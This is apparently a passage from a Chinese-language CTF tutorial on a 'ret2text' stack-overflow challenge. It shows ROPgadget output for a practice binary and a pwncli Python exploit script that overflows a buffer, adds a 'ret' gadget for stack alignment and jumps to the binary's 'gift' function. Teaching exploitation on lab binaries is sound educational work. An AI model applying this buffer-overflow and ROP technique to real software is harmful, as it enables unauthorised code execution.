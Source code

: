 因此可以根据这些目标直接在 gdb / ida 中进行人工筛选。

当然这些繁琐的工作可以交给现有工具来进行：ropper 和 ROPgadget 都是很好的辅助工具，其中 ropper 适合对大型文件进行查找，而命令行下的 ROPgadget 则便于结合管道符和 shell 命令使用。

回到例题中，我们的目标是使栈对齐，故可以直接在栈上先放一个 `ret;` 语句，随后再跟上 gift 函数的地址：

第一步先找一个 ret 语句：

```sh
❯ ROPgadget --binary ./ret2text-rev --only "pop|ret" | grep ret
0x000000000040122c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040122e : pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000401230 : pop r14 ; pop r15 ; ret
0x0000000000401232 : pop r15 ; ret
0x000000000040122b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040122f : pop rbp ; pop r14 ; pop r15 ; ret
0x000000000040115d : pop rbp ; ret
0x0000000000401233 : pop rdi ; ret
0x0000000000401231 : pop rsi ; pop r15 ; ret
0x000000000040122d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040101a : ret
```

这里最后一个 0x000000000040101a 就符和要求，接下来把这句接到原本的 payload 上，构成 ROP 链：

```py
#!/usr/bin/env python3
#-*- coding: utf-8 -*-
#   expBy : @eastXueLian
#   Debug : ./exp.py debug  ./pwn -t -b b+0xabcd
#   Remote: ./exp.py remote ./pwn ip:port

from pwncli import *
cli_script()
set_remote_libc('libc.so.6')

io: tube = gift.io
elf: ELF = gift.elf
libc: ELF = gift.libc

i2b = lambda c : str(c).encode()
lg = lambda s : log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
debugB = lambda : input("\033[1m\033[33m[ATTACH ME]\033[0m")

ret_addr = 0x000000000040101a

ru(b'Give me your data: \n')
payload = b"a"*(0x20+8)
payload += p64(ret_addr)
payload += p64(elf.symbols['gift'])
s(payload)

ia()
```
